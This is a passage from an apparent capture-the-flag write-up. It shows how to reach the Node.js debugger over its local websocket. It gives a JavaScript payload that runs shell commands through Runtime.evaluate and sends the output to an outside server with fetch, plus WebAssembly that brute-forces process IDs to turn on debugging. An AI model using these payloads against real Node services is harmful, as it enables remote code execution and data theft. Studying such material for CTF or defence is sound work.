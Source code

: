 So we can construct a simple payload that fetches /list/ and then contact the websocket to get access. [This page](https://blog.ssrf.in/post/cve-2018-7160-chrome-devtools-protocol-memo/) describes a simple payload for the node debugger protocol that will execute some code.
```js
const f = async (url) => {
    while(true) {
        try {
            return await fetch(url, options);
        } catch (err) {
            await new Promise(r => setTimeout(r, 100));
        }
    }
};
async function g(){
    let a;
    await f(`http://localhost:9229/json/list`).then(r=>r.json()).then(d=>{a=d});
    let s = new WebSocket(`${a[0][webSocketDebuggerUrl]}`);
    s.onopen = function() {
        data = `require = process.mainModule.require; execSync = require('child_process').execSync; execSync('cat flag.txt');`;
        s.send(JSON.stringify({'id':1,'method':'Runtime.evaluate','params':{'expression': data}}));
    };
    s.onmessage = function (event) {
        fetch(`https://server/?`+btoa(event.data));
    };
};
g();
```

My idea here was just to keep calling /json/list until a server happens to be up and use it. I asked nope to write some webassembly that just calls `_debugProcess`, brute forcing the PID, and spins a loop at this point and here's what he came up with:

```
(module
  (import "process" "exit" (func $return (param i32)))
  (import "process" "_debugProcess" (func $enable (param i32)))
  (func (export "main") (local $meme1 i32)
    i32.const 0
    set_local $meme1
    
    loop $B0
      get_local $meme1
      call $enable
      get_local $meme1
      i32.const 1
      i32.add
      set_local $meme1
      get_local $meme1
      i32.const 9999
      i32.ne
      br_if $B0
    end
    
    loop $B1
      i32.const 1
      i32.const 2
      i32.add
      br $B1
    end

    i32.const 69420
    call $return
  )
)
```